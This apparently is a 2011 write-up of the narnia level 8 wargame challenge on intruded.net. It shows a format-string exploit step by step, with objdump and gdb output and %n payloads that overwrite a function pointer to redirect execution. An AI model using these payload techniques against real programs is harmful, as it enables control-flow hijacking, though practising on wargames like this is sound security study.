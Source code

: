 title: intruded.net, narnia: level 8
Date: 2011/09/27 00:28
Author: Ken Ko
Tags: intruded.net, narnia, gdb, format string
Category: tutorials

Initial idea: exploit the string format in snprintf() to overwrite the function pointer and make it redirect to hackedfunction() instead of goodfunction(). 

Let's run an <strong>objdump -d level8 | less</strong> to see what we have to work with:

<code>
08048554 <vuln>:
...
 8048612:       ff d0                   call   *%eax

0804867a <goodfunction>:

080486a0 <hackedfunction>:
</code>

So, that doesn't really help me at all right now. Time to gdb?

Taking a look <a href="http://www.epanastasi.com/?page_id=60">here</a> for string format vulnerabilities. Of interest is the "Direct Parameter Access" section. There they say using <strong>%7$d</strong> "accesses the memory for the 7th argument". Then, let's try out their example:

<code>
$ cat print.c
#include <stdlib.h>
#include <stdio.h>

int main () {
    printf("Argument 7: %7$d, Argument 2: %2$d \n", 10, 20, 30, 40, 50, 60, 70, 80);
}
$ ./print
Argument 7: 70, Argument 2: 20
</code>

Damn. TIL.

So the pressing issue: how is this useful? Initial reaction says that this saves us from needing to constantly pop the stack. A different perspective (more information, basically) can be found <a href="http://www.exploit-db.com/papers/13239/">here</a> at exploit-db. Additionally, the <a href="http://www.defcon.org/images/defcon-18/dc-18-presentations/Haas/DEFCON-18-Haas-Adv-Format-String-Attacks.pdf">presentation on string format vulnerabilities given by Haas</a> in DEFCON 18 mentions the following, in passing:

<code>
%5$n = %p%p%p%p%p%n
</code>

Giving this another try:

<code>
AAAABBBB%7\$n == AAAABBBB%x%x%x%x%x%x%n
</code>

Looks like both of these give the same result. So, we save space. That's pretty cool; definitely a lot more convenient than adding and removing %x everywhere. We can't exactly call upon %s because the output doesn't get printed to stdout, so let's try to write it to a variable--preferably, <strong>$eax</strong>.

So now that we can read memory addresses, what's in the function pointer? We should get our address, first...

<code>
(gdb) r hi
Starting program: /wargame/level8 hi
goodfunction() = 0x804867a
hackedfunction() = 0x80486a0

before : ptrf() = 0x804867a (0xbffff98c)
</code>

Cools. Let's read this:

<code>
(gdb) r `python -c 'print "\x8c\xf9\xff\xbf"'`%6\$n
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Program received signal SIGSEGV, Segmentation fault.
0x00000004 in ?? ()
(gdb) i r
eax            0x4      4
ecx            0x0      0
edx            0x4      4
ebx            0xb7fdfff4       -1208090636
esp            0xbffff96c       0xbffff96c
ebp            0xbffffa18       0xbffffa18
esi            0x0      0
edi            0xb8000cc0       -1207956288
eip            0x4      0x4
eflags         0x10282  [ SF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb)
</code>

What.

Makes sense, we wrote four bytes (the address) prior to the %n. Translate 0x80486a0 to decimal and we have 134514336d. Subtract four for the offset, and try it out:

<code>
(gdb) r `python -c 'print "\x7c\xf9\xff\xbf"'`%134514332x%6\$n
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /wargame/level8 `python -c 'print "\x7c\xf9\xff\xbf"'`%134514332x%6\$n
goodfunction() = 0x804867a
hackedfunction() = 0x80486a0

before : ptrf() = 0x804867a (0xbffff97c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048612 in vuln ()
(gdb) i r
eax            0x80486a0        134514336
ecx            0x0      0
edx            0x80486a0        134514336
ebx            0xb7fdfff4       -1208090636
esp            0xbffff960       0xbffff960
ebp            0xbffffa08       0xbffffa08
esi            0x0      0
edi            0xb8000cc0       -1207956288
eip            0x8048612        0x8048612 <vuln+190>
eflags         0x282    [ SF IF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb)
</code>

Winner winner chicken dinner.

Moving on to behemoth!
